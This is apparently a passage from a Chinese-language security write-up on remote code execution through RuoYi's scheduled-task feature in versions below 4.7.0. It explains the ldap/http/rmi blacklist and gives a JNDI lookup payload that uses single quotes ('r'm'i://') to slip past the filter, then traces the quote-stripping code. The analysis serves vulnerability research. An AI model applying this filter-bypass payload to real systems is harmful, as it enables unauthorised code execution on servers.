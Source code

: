 ## < 4.7.0

`4.6.2 ~ 4.7.1`新增黑名单限制调用字符串

- 定时任务屏蔽ldap远程调用
- 定时任务屏蔽http(s)远程调用
- 定时任务屏蔽rmi远程调用

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/16.webp)

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/17.webp)

来个小插曲，之前又看到一个文章，阅读量还不少类，师傅给出的poc是利用范围是**<4.7.2**

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/18.webp)

后边发现不止这一篇，其他就不在举例了。

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/19.webp)

但是我去翻了diff，发现在4.7.1中的黑名单已经过滤了这些poc。

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/20.webp)

单引号绕过
在4.7.0的版本以下，仅仅只是屏蔽了ldap、http(s)、ldap。这里可以结合若依对将参数中的所有单引号替换为空来绕过

poc、例如：

```shell
org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://127.0.0.1:1099/refObj')
```

分析：

创建任务时`r'm'i`可以绕过对`rmi`的过滤

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/21.webp)

之前分析的定时任务运行的原理，会在`com.ruoyi.quartz.util.JobInvokeUtil`类中第一个`invokeMethod`方法调用`getMethodParams`方法来获取参数

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/22.webp)

跟进之后发现会把参数中的`'`替换为空

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/23.webp)

打个断点调试一下

![< 4.7.0](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/24.webp)


## < 4.7.2
